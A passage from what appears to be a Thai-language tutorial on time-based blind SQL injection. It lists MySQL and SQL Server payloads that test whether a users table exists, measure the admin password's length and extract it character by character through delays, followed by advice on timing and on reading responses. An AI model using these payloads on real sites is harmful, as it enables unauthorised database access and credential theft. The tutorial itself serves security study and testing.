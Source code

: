 ### ทดสอบว่ามี table users หรือไม่:
```sql
-- MySQL
'; SELECT IF(EXISTS(SELECT * FROM users), SLEEP(5), 0)--

-- SQL Server  
'; IF EXISTS(SELECT * FROM users) WAITFOR DELAY '0:0:5'--
```

### หาความยาวของ password:
```sql
-- SQL Server
'; IF (SELECT LEN(password) FROM users WHERE username='admin') > 8 WAITFOR DELAY '0:0:5'--

-- MySQL
'; SELECT IF((SELECT LENGTH(password) FROM users WHERE username='admin') > 8, SLEEP(5), 0)--
```

### ทดสอบตัวอักษรทีละตัว:
```sql
-- SQL Server - ตัวอักษรแรก
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') = 'a' WAITFOR DELAY '0:0:5'--

-- MySQL - ตัวอักษรแรก  
'; SELECT IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') = 'a', SLEEP(5), 0)--
```

## การวัดเวลาและการตีความผลลัพธ์

### การตั้งค่า Timeout ที่เหมาะสม:
- **Delay สั้นเกินไป** (1-2 วินาที) = อาจเกิด false positive จาก network latency
- **Delay ยาวเกินไป** (20+ วินาที) = ช้าเกินไป, อาจ timeout
- **Delay ที่แนะนำ** = 5-10 วินาที

### การอ่านผลลัพธ์:
- **Response time ปกติ** (< 1 วินาที) = เงื่อนไขเป็นเท็จ
- **Response time นาน** (≈ delay time) = เงื่อนไขเป็นจริง

## ข้อดีและข้อเสีย

### ข้อดี:
- ใช้ได้เมื่อ error-based injection ใช้ไม่ได้
- ไม่ต้องพึ่งพา error messages
- ทำงานได้กับฐานข้อมูลเกือบทุกประเภท

### ข้อเสีย:
- **ช้า** - ต้องรอ delay ในแต่ละ request
- **ไม่เสถียร** - network latency อาจส่งผลกระทบ
- **ใช้เวลานาน** - ต้อง brute force ทีละตัวอักษร

